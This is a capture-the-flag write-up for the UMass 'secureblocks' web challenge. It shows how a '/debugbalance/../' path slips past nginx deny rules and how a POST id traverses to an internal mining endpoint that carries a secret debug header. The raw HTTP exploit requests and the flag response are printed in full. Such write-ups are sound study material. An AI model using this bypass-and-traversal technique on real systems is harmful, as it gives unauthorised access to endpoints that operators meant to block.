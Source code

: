 # secureblocks [8 solves] [499 points] [First Blood 🩸]

![](https://i.imgur.com/kG1689x.png)

### Description
```
I heard block chain was the cool new thing so I asked my little brother to make me a blockchain website. But I think he was thinking of the wrong kind of blocks...

secureblocks.zip

Ayman#5138

http://secureblocks.web.ctf.umasscybersec.org
```

The objective is to mine diamonds and buy flag with the diamonds

It is running nginx as a proxy and forwarding requests to node that is running locally

Nginx is blocking us from requesting `/buyflag` and `/debugbalance`

```
        location ~* ^/debugbalance {
            deny all;
            return 403;
        }
        location ~* ^/buyflag {
            deny all;
            return 403;
        }
```

We can mine diamonds with `/mine/<id>` 
```js
router.get('/mine/:id',middleware.authReq,async (req,res)=>{
  if(ALLOWED.includes(req.user) || req.headers.debug === process.env.DEBUG_HEADER){
    let user = (await DBHelper.getUser(req.params.id))[0];
    try{
      let diamonds = Math.floor(Math.random()*12) + user.diamonds;
      await DBHelper.editDiamonds(req.params.id,diamonds);
      return res.json({'success':{'diamonds':diamonds}})
    }
    catch(e){
      console.log(e);
      return res.json({'error':"Don't mine at night!"})
    }
  }
  res.json({'error':'Diamonds unavailable at this time.'}).status(403)
})
```

However, it checks if the logged in user is in the allow list, which the allow list only has the admin and there is no way to be included in it

We can also specify a debug header, however we don't know the DEBUG_HEADER environment variable

`/debugbalance` will make a request to localhost with the debug header needed
```js
router.post('/debugbalance/:id',async (req,res)=>{
  let id = req.body.id ? req.body.id : req.params.id;
  try{
    let resp = await fetch(`http://localhost:3000/balance/${id}`,{headers:{
      'DEBUG':process.env.DEBUG_HEADER
    }});
    let text = await resp.text();
    res.json({'success':text});
  }
  catch(e){
    res.json({'error':e})
  }
})
```

We can specify `id` to whatever we want, so we can do directory traversal to access `/mine` with the debug header to mine diamonds for our account

But `/debugbalance` is blocked by nginx, we can bypass that with `/debugbalance/../`, nginx will treat that as `/` but node will read that is `/debugbalance/` with the id of `..` , and we can specify the id for directory traversal in the body of the POST request

```
POST /debugbalance/../ HTTP/1.1
Host: secureblocks.web.ctf.umasscybersec.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secureblocks.web.ctf.umasscybersec.org/dashboard
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

id=../mine/kaiziron
```

Then just make the request few times until we have enough diamonds for buying the flag with `/buyflag/<id>`

```js
router.get('/buyflag/:id',middleware.authReq,async (req,res)=>{
  let result = await DBHelper.getUser(req.user);
  if(result.length>0){
    let user = result[0];
    if(user.diamonds >= 64 && user.name!=='admin'){
      await DBHelper.editDiamonds(req.user,0);
      return res.json({'flag':FLAG});
    }
    return res.json({'error':'not enough diamonds!'})
  }
  res.json({'error':'Could not find character'});
})
```

`/buyflag/<id>` will not actually take the id in the url, but it will get our user by our jwt cookie, so we can use the same way to bypass nginx as node will treat `..` as the id and it is not used at all

```
GET /buyflag/../ HTTP/1.1
Host: secureblocks.web.ctf.umasscybersec.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secureblocks.web.ctf.umasscybersec.org/dashboard
Connection: close
Cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoia2Fpemlyb24iLCJpYXQiOjE2Nzk3NzM4MzMsImV4cCI6MTY3OTc3NTYzM30.pKJtWYMQQLTBRxCJJH_XOyFk170S_wsWENZDmJFtPzQ


```

Then we will get the flag :
```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 25 Mar 2023 19:50:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-ngIowhWFW47ergu0BQYKPRStoIQ"

{"flag":"UMASS{M1N3_D14M0ND$_L1K3_4_B0SS_111222333}"}
```